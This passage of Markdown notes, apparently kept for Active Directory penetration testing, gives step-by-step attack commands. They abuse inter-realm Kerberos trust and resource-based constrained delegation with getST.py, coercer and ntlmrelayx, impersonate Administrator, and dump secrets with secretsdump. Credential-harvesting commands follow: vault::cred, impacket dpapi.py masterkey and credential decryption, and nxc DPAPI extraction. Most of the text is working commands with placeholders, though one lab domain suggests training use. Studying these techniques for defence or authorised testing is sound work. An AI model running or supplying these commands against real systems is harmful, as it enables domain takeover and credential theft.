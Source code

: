   - We can then use this TGT to request a service ticket using `getST.py`
	- `getST.py -k -no-pass -spn {spn}/{parent_domain_computer_name} '{parent_domain}/fakeuser@{parent_domain}' -debug`
		- The spn value can be many different things, depending on what service we'd like to request:
			- HOST for general host access, CIFS for SMB, LDAP for ldap, GC for Global Catalog, RPCSS for  RPC, MSSQLSvc for MSSQL, HTTP for web, WSMAN for PowerShell remoting
	- Since this is an interrealm service-key, it doesn't provide access to services yet, so we can use it to request one of the above services from the DC
  - We then export this new ST, and we can use it to authenticate directly to the parent domain controller
	- `secretsdump.py -k -no-pass fakeuser@kingslanding.sevenkingdoms.local`
	  - This would require a `cifs/` service ticket, as dumping secrets is done through SMB

**ACL Abuse**
- Check out [OUned](https://github.com/synacktiv/OUned) for a pretty neat enumeration tool

## Delegation
- Resource-based Constrained Delegation (RBCD) is basically allowing one entity to perform some action on behalf of another user
- It's very useful for giving granular permissions, for example if a service user needs to access only some resources on behalf of another user
- Alice delegating to Bob means that Bob can request Kerberos tickets and access services on behalf of Alice

**Abusing Delegation to a Machine We Control**
- `ntlmrelayx` supports providing delegation to our owned computer accounts with `--delegate-access`
  - This means that the target computer will delegate to our newly-created computer
- An example attack path:
  - Coerce a computer to authenticate to us (or gather relayable credentials in some manner): 
    - `coercer coerce -l {our_IP} -t {target_IP} --always-continue -u {username} -p {password}`
  - Set up `ntlmrelayx` to add a computer to the domain using the relayed credentials which the coerced machine has delegation rights over:
    - `ntlmrelayx.py -t ldaps://{dc_IP} -smb2support --remove-mic --add-computer {new_computer_name} --delegate-access`
  - Use new computer to request a TGS from the machine's Administrator via our new delegation 
    - `getST.py -spn HOST/{target_machine_name}.{domain} -impersonate Administrator -dc-ip {dc_ip} '{domain}/{new_computer_name}:{new_computer_pass}'`
  - Use the valid TGS to extract secrets from the target machine:
    - `export KRB5CCNAME=./Administrator.ccache; secretsdump.py -k -no-pass {domain}/Administrator@{target_ip}`

## Credential Harvesting

**Getting More Credentials**
- `vault::cred /patch` will enumerate vault credentials (creds used in scheduled tasks)

**DPAPI Keys**
- Master encryption keys used by the Data Protection API (DPAPI) to encrypt data like passwords/certs
- Derived from logon passwords, meaning they can be decrypted with the password (or Administrator access)
  - Will be created/used by different processes, such as Chromium browsers, SCCM, Task Scheduler
- We'll find the master key in `~\AppData\Roaming\Microsoft\Protect\{user_SID}\`, which we can decrypt using impacket:
  - `dpapi.py masterkey -file {masterkey_file} -sid {user_SID} -password '{user_password}'`
- We can then use the masterkey to decrypt credentials, which are commonly found in `~\Appdata\(Roaming/Local)\Microsoft\Credentials\` again using impacket:
  - `dpapi.py credential -file {credential_file} -key '0x{master_key}'`
- NetExec can also perform this process automated with `nxc smb --dpapi cookies`